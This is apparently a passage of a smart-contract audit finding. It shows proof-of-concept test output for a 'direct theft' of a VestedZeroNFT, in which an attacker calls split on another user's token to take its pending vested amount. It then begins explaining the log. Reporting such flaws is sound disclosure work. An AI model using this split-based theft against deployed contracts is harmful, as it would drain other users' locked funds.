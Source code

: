 ```
  0n,
  1000n,
  1710064957n,
  false,
  0n
]
Execute the attack to steal the amount of pending of the VestedZeroNFT to mint a new tokenID for the attacker
Attacker address:  0xf39Fd6e51aad88F6F4ce6aB8827279cffFb92266
Call split to theft the tokenID of Ant
LastTokenId:  2n
tokenIdToLockDetails:  Result(10) [
  0n,
  1710065933n,
  0n,
  1000000000000000000n,
  0n,
  0n,
  1000n,
  1710064957n,
  false,
  0n
]
The owner address of the lastTokenId:  0xf39Fd6e51aad88F6F4ce6aB8827279cffFb92266
Get tokenIdToLockDetails of the lastTokenId
tokenIdToLockDetails:  Result(10) [
  0n,
  1710065933n,
  0n,
  9999000000000000000000n,
  0n,
  0n,
  1000n,
  1710064958n,
  false,
  0n
]
    ✔ Direct theft of ZeroVestedNFT (283ms)

```

Test Log explanation: 

So Pre-condition: Ant has 1 VestedZeroNFT with id = 2 
The tokenIdToLockDetails information for this tokenID 
```
tokenIdToLockDetails:  Result(10) [
  0n,
  1710065933n,
  0n,
  10000000000000000000000n,
  0n,
  0n,
  1000n,
  1710064957n,
  false,
  0n
]
```
